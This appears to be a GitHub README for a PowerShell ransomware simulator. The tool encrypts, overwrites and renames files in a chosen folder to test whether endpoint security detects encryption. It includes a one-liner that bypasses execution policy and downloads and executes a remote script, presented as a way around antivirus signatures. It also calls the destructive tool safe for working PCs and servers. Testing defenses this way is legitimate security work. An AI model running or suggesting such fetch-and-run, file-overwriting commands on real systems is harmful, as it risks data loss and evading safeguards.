 :pushpin: :pushpin: :pushpin: Replicated from https://github.com/eddiechu/Encrypt-Delete-Test :pushpin: :pushpin: :pushpin: 

# Really can protect from ransomware encryption?

We often come across antivirus and next-generation endpoint solutions that claim to offer ransomware protection, boasting advanced capabilities in detecting activities such as penetration, invasion, and pre-encryption through the use of AI and machine learning. However, these solutions may still fail to prevent the encryption process if they happen to miss detecting these malicious activities.

To address this concern, we have developed a simple tool that simulates the ransomware encryption process. This tool can help you determine whether your EDR (Endpoint Detection and Response) or antivirus software is capable of blocking such malware encryption behaviors.


[![Watch the video](https://raw.githubusercontent.com/eddiechu/Powershell-ransomware-simulator/main/Image/mr.bean2.gif)](https://youtu.be/CQIq8GDtDG0)

**Stop encryption is the last defense, which cannot be neglected.**


# Which brand can detect encryption operation?

That's why I developed this tool.  It is not to replicate found malware, not vendor test tool, no bias, no need to install, just do **encrypt (in memory) - overwrite (original file) - rename (file extension)**, simulate the core operation of ransomware.

It is safe enough to run it on your working PC and server, let you see the fact in your environment.

I have helped people to test this after WannaCry outbreak.  Luckly, I found few brands can detect it, and one of them can stop ransomware encryption initiated from remote PC via file share and RDP as well.  I did see a real Ransomware incident, that endpoint really could stop encryption, no loss.

You can refer to the source code if you know programming or you can download the complied files.

Hope there is no more ransomware incident!  Please share this blog with friends if you found it is useful.


# This tool


![alt text](https://raw.githubusercontent.com/eddiechu/Powershell-ransomware-simulator/main/Image/powershell1.gif)

This tool encrypts - overwrite - rename the files in the selected (local or network) folder and subfolder, you may create a temporary folder like C:\Ransomware-Simulator\, save this tool to there, then run it.  Be safe.

- copy and paste the PowerShell code to terminal, this way can bypass antivirus signature and simulate the real ransomware behaviour
- powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/eddiechu/Powershell-ransomware-simulator/main/EncryptDelTestv4.1.ps1.txt')"

It tests if your endpoint can detect when encryption is happening (like base on the files change pattern), but NOT to test if your endpoint can prevent it from start.

It is great if you can share your test result with me for my record.







#

ransomware test tool
ransomware simulation
ransomware simulator
ransomware assessment
eddie chu
eddiechu.android@gmail.com
anti-ransomware
antivirus test
anti-virus test
endpoint test
infosec
security
cyber security
cybersecurity
incident response
hacker
antimalware
anti-malware
encryption
encrypt-del-test
encrypt-delete-test
encryptdeltest
encrypt overwrite rename
tool
test tool
defense
testing
pentest
penetration test
blue team
red team
poc
ciso
